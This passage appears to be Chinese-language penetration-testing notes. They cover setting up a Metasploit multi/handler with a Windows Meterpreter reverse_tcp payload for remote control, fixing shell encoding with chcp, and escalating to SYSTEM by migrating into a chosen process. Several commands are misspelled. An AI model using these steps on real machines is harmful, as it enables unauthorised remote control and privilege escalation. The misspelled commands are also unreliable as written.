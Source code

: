 开启tcp
![image-20210118114559504](../../img/image-20210118114559504.png)

![image-20210118111412899](../../img/image-20210118111412899.png)

lhost使用这个ip
那么就可是实现远程控制

```
user exploit/mutil/handler
set payload windows/metepreter/reverse_tcp



```



#### 解决shell乱码

```
1.乱码问题的原因是window和linux采用编码方式不同，从而导致乱码，我们可以在终端修改编码方式为GBK即可。


2.chcp 65001 把shell改为utf-8
chcp查看当前编码 936代表gbk
```

#### 提权

根据刚才的提示找到上述提供的PID的进程，我们这里就随意找了一个SYSTEM权限进行的进程，PID为3240
然后我们要用到migrate命令，将当前会话进程迁移到一个指定的进程ID
